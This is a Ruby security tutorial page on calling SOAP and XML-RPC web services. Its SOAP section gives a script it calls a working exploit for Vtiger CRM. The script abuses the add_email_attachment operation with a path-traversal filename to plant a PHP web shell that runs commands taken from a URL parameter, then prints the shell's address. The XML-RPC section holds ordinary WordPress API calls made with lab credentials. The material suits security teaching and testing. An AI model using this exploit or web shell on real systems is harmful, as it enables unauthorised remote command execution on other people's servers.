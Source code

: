 # Interacting with Web Services

### SOAP - WSDL
Generally speaking, dealing with SOAP means dealing with XMLs that which WSDL describes how to use that SOAP. Ruby has really elegant way to do so and let's to get our hand dirty with an exploit

```
gem install savon httpclient
```

This is a working exploit for Vtiger CRM SOAP from Auth-bypass to Shell upload 
```ruby
#!/usr/bin/evn ruby
# KING SABRI | @KINGSABRI
# gem install savon httpclient
#
require 'savon'

if ARGV.size < 1
  puts "[+] ruby #{__FILE__} [WSDL URL]"
  exit 0
else
  url = ARGV[0]
end

shell_data, shell_name = "<?php system($_GET['cmd']); ?>", "shell-#{rand(100)}.php"

# Start client 
client = Savon::Client.new(wsdl: url)

# List all avialable operations 
puts "[*] List all available operations "
puts client.operations

puts "\n\n[*] Interact with :add_email_attachment operation"
response = client.call( :add_email_attachment, 
                        message: {
                                     emailid:  rand(100),
                                     filedata: [shell_data].pack("m0"),
                                     filename: "../../../../../../#{shell_name}",
                                     filesize: shell_data.size,
                                     filetype: "php",
                                     username: "KING", 
                                     sessionid: nil
                                }
                      )
puts "[+] PHP Shell on:  http://#{URI.parse(url).host}/vtigercrm/soap/#{shell_name}?cmd=id"

```



### XML-RPC
Ruby has a [standard library][2] called `xmlrpc` which take care of all xmlrpc stuff you can even create an xmlrpc server using it. Let's  to get  Some real word example 

Looking for really known application that support XMLRPC then of course Wordpress was the first attendee. 

So what do we want to do?
- Say hello to wordpress 
- List all available methods
- List all available users
- List all available post
- Create a new post!
- Retrieve created post 


```ruby
require 'xmlrpc/client'

opts =
    {
        host: '172.17.0.2',
        path: '/xmlrpc.php',
        port: 80,
        proxy_host: nil,
        proxy_port: nil,
        user: 'admin',
        password: '123123',
        use_ssl: false,
        timeout: 30
    }

server = XMLRPC::Client.new(
    opts[:host], opts[:path], opts[:port],
    opts[:proxy_host], opts[:proxy_port],
    opts[:user], opts[:password],
    opts[:use_ssl], opts[:timeout]
)

server = XMLRPC::Client.new3(opts)

# Say hello to wordpress
response = server.call("demo.sayHello")

# List all available methods
server.call('system.listMethods', 0)

# List all available users
server.call('wp.getAuthors', 0, opts[:user], opts[:password])

# List all available post
response = server.call('wp.getPosts', 0, opts[:user], opts[:password])

# Create a new post!
post =
    {
        "post_title"    => 'Rubyfu vs WP XMLRPC',
        "post_name"     => 'Rubyfu vs Wordpres XMLRPC',
        "post_content"  => 'This is Pragmatic Rubyfu Post. Thanks for reading',
        "post_author"   => 2,
        "post_status"   => 'publish',
        "comment_status" => 'open'
    }
response = server.call("wp.newPost", 0, opts[:user], opts[:password], post)

# Retrieve created post
response =  server.call('wp.getPosts', 0, opts[:user], opts[:password], {"post_type" => "post", "post_status" => "published", "number" => "2", "offset" => "2"})

# List all comments on a specific post
response =  server.call('wp.getComments', 0, opts[:user], opts[:password], {"post_id" => 4})

```

Results 

```
```

and here is the new post
![](webfu__xmlrpc1.png)









<br><br><br>
---
[1]:
[2]: http://ruby-doc.org/stdlib-2.2.3/libdoc/xmlrpc/rdoc/XMLRPC/Client.html
